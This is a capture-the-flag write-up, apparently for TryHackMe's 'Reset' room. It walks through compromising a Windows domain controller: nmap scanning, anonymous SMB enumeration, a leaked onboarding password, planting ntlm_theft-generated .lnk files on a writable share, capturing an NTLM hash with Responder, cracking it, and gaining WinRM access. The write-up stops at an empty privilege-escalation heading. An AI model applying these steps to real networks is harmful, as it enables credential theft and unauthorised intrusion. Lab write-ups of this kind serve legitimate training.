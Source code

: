 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b80efa3b-6d37-4d1c-8644-d3ec7599a228)

first enumeration with nmap 

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:28:13 2024 as: nmap -p- --min-rate 1000 -v -Pn -oN full.tcp 10.10.230.101
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00056s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
7680/tcp  open  pando-pub
9389/tcp  open  adws
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49703/tcp open  unknown
MAC Address: 02:24:96:14:7C:EB (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Feb 10 17:30:33 2024 -- 1 IP address (1 host up) scanned in 140.66 seconds
```
we can see the open ports, let's run nmap default scripts scan to know what services are running on these ports

```shell
# Nmap 7.93 scan initiated Sat Feb 10 17:34:41 2024 as: nmap -sCV -T4 -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,7680,9389 -Pn -oN service.tcp
 10.10.230.101                 
Nmap scan report for ip-10-10-230-101.eu-west-1.compute.internal (10.10.230.101)
Host is up (0.00045s latency).                                                
                                                                              
PORT     STATE    SERVICE       VERSION    
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 17:34:49Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Not valid before: 2024-01-25T21:01:31                                                                                                                     
|_Not valid after:  2024-07-26T21:01:31 
| rdp-ntlm-info:                                                                                                                                            
|   Target_Name: THM                                                                                                                                        
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-10T17:34:49+00:00
|_ssl-date: 2024-02-10T17:35:29+00:00; 0s from scanner time.
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp filtered pando-pub
9389/tcp open     mc-nmf        .NET Message Framing
MAC Address: 02:24:96:14:7C:EB (Unknown)
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-10T17:34:50
|_  start_date: N/A
|_nbstat: NetBIOS name: HAYSTACK, NetBIOS user: <unknown>, NetBIOS MAC: 022496147ceb (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 10 17:35:29 2024 -- 1 IP address (1 host up) scanned in 48.40 seconds
```
now we know what services are running on these ports

## Enumerating smb

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/reset]
└─$ smbclient -L HayStack.thm.corp -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to HayStack.thm.corp failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
checking for null share session, we can see a Data share. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/00c95ff9-7b5e-4e3c-99f9-6b0941815616)

checking the share, we can see some files, we downloaded the files. 

```shell
└─$ cat cjexnwvf.e0i.txt
Subject: Welcome to Reset -Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team 
```
checking the content of the txt file, we got a password `ResetMe123!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5e223f93-149f-4968-8463-5715d888acb6)

we have write permission to the smb server, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dc3c8f28-22d9-4686-8eab-bccdd5fc58e7)

after long research we got how to phish and steal ntlm hash using responder with this ntlm_theft payload. [payload_gen](https://github.com/Greenwolf/ntlm_theft).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2b0c83d9-912b-4342-9f76-e4f45ae42036)

```shell
┌──(root㉿kali)-[~/ntlm_theft]                                                                                                                              
└─# python ntlm_theft.py                                                                                                                                    
usage: ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
ntlm_theft.py: error: the following arguments are required: -g/--generate, -s/--server, -f/--filename
                                                                                                                                                            
┌──(root㉿kali)-[~/ntlm_theft]                                                
└─# python ntlm_theft.py --generate all --server 10.10.135.72 --filename testing 
Created: testing/testing.scf (BROWSE TO FOLDER)              
Created: testing/testing-(url).url (BROWSE TO FOLDER)
Created: testing/testing-(icon).url (BROWSE TO FOLDER)                        
Created: testing/testing.lnk (BROWSE TO FOLDER)                               
Created: testing/testing.rtf (OPEN)                                           
Created: testing/testing-(stylesheet).xml (OPEN)                              
Created: testing/testing-(fulldocx).xml (OPEN)                                
Created: testing/testing.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: testing/testing-(includepicture).docx (OPEN)
Created: testing/testing-(remotetemplate).docx (OPEN)
Created: testing/testing-(frameset).docx (OPEN)
Created: testing/testing-(externalcell).xlsx (OPEN)
Created: testing/testing.wax (OPEN)
Created: testing/testing.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: testing/testing.asx (OPEN)
Created: testing/testing.jnlp (OPEN)
Created: testing/testing.application (DOWNLOAD AND OPEN)
Created: testing/testing.pdf (OPEN AND ALLOW)
Created: testing/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: testing/Autorun.inf (BROWSE TO FOLDER)
Created: testing/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```
run the exploit to see how it works and generated some payloads we can use. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5ff14951-88e7-4859-9ca1-d69844953aef)

payloads generated. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/09508a3f-f1b2-49f2-9b9b-760be16429bd)

fire up responder

```shell
┌──(root㉿kali)-[~/ntlm_theft/testing]
└─# smbclient \\\\HayStack.thm.corp\\Data -N
Try "help" to get a list of possible commands.
smb: \> cd onboarding\
smb: \onboarding\> put testing.lnk 
putting file testing.lnk as \onboarding\testing.lnk (45.0 kb/s) (average 45.0 kb/s)
smb: \onboarding\> dir 
  .                                   D        0  Sat Feb 10 18:04:15 2024
  ..                                  D        0  Sat Feb 10 18:04:15 2024
  101.nmap                            A     1260  Sat Feb 10 17:51:00 2024
  44ocn1as.elc.txt                    A      521  Mon Aug 21 18:21:59 2023
  4r2skt4b.sa2.pdf                    A  4700896  Mon Jul 17 08:11:53 2023
  nfdpqxro.a0w.pdf                    A  3032659  Mon Jul 17 08:12:09 2023
  testing.lnk                         A     2164  Sat Feb 10 18:04:15 2024

                7863807 blocks of size 4096. 3023074 blocks available
smb: \onboarding\> 
```
uploaded a testing.lnk file and check back responder

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5fabef38-7548-4345-b000-ea9373c00d9a)

boom we got an NTLM hash for user `THM\AUTOMATE`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a76da70b-55e7-4154-ad8d-eb94106722ef)

using hashcat to crack the hash, we got the password. 

## Initial foothold - winrm 

```shell
┌──(root㉿kali)-[~]
└─# crackmapexec winrm 10.10.230.101 -u automate -p redacted
SMB         10.10.230.101   5985   HAYSTACK         [*] Windows 10.0 Build 17763 (name:HAYSTACK) (domain:thm.corp)
HTTP        10.10.230.101   5985   HAYSTACK         [*] http://10.10.230.101:5985/wsman
WINRM       10.10.230.101   5985   HAYSTACK         [+] thm.corp\automate:redacted (Pwn3d!)
```
using crackmapexec to check for access, we can see that we can login winrm using the cred.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4a1bd524-0ca0-41c5-85a5-e62d35a6688f)

now we login winrm using the creds


## Privilege Escalation 

